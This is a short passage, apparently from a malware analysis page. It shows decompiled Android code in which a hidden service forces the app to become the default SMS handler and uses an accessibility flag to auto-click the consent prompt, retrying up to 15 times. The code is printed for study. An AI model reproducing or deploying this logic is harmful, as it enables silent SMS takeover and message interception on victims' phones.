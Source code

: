 ```cs

        this.Tools.Log(this, "[ServiceHiddenSMS] Starting SMS Manager changer", boolean0);
        int v = 0;
        while(true) {
            String s = Telephony.Sms.getDefaultSmsPackage(this);
            if((this.setOurAppAsHidden) && (this.Tools.isDefaultSMSApp(this)) || !this.setOurAppAsHidden && !this.Tools.isDefaultSMSApp(this)) {
                this.Tools.Log(this, "<font color=lime>Current SMS Messanger is: " + s + "</font>", boolean0);
                ServiceAccessibility.autoClickForSmsManager = false;
                ServiceHiddenSMS.isRunning = false;
                this.stopSelf();
                return;
            }

            ServiceAccessibility.autoClickForSmsManager = true;
            if(v > 15) {
                this.Tools.Log(this, "[ServiceHiddenSMS] Too many retries...", boolean0);
                ServiceAccessibility.autoClickForSmsManager = false;
                ServiceHiddenSMS.isRunning = false;
                this.stopSelf();
                return;
            }

            this.Tools.Log(this, "[ServiceHiddenSMS] Asking for SMS Change", Boolean.valueOf(false));
            ++v;
            if(this.setOurAppAsHidden) {
                Intent intent1 = new Intent("android.provider.Telephony.ACTION_CHANGE_DEFAULT");
                intent1.addFlags(0x10000000);
                intent1.addFlags(0x40000000);
                intent1.putExtra("package", this.getPackageName());
                this.startActivity(intent1);
            }
            else {
                Intent intent2 = new Intent("android.provider.Telephony.ACTION_CHANGE_DEFAULT");
                intent2.addFlags(0x10000000);
                intent2.addFlags(0x40000000);
                intent2.putExtra("package", this.store.get(this, "SMSDefaultApp"));
                this.startActivity(intent2);
            }

            Utils.doWait(2000L);
        }
    }
```


# Commands
